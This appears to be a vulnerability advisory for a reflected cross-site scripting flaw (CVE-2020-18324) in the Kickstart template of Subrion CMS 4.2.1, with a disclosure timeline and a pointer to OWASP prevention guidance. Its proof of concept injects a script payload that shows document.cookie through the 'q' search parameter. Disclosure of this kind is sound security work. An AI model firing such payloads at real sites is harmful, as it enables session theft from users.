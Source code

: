 
# Subrion CMS 4.2.1 – Reflected XSS vulnerability in Kickstart template 
# Description
Subrion CMS is easy to install and simple to manage. Use it as a stand-alone application or in conjunction with other applications to create entry level sites, mid-sized or large sites.

The Reflected Cross-site Scripting vulnerability was discovered in the "Kickstart" web application template of the Subrion CMS v.4.2.1 via the "search" component, which allows a remote attacker to inject arbitrary JavaScript.

**Date**: 22-02-2022 \
**Software Link:** https://subrion.org \
**Exploit Author**: HaMM0nz \
**CVE**: CVE-2020-18324 \
**Category:** Web Application

# Proof of Concept
1. Navigate to Subrion Kickstart template
2. Inject <script>alert(document.cookie);</script> into “q” parameter, in PoC exploit will be https://localhost/search/?q=<script>alert(document.cookie);</script>

# Timeline
**Discovery and report** : 24 June 2019 \
**CVE ID was assigned** : 11 Aug 2021 \
**Public** : 22 February 2022
# Solution
Consider complying to the OWASP's XSS prevention guidelines. (https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
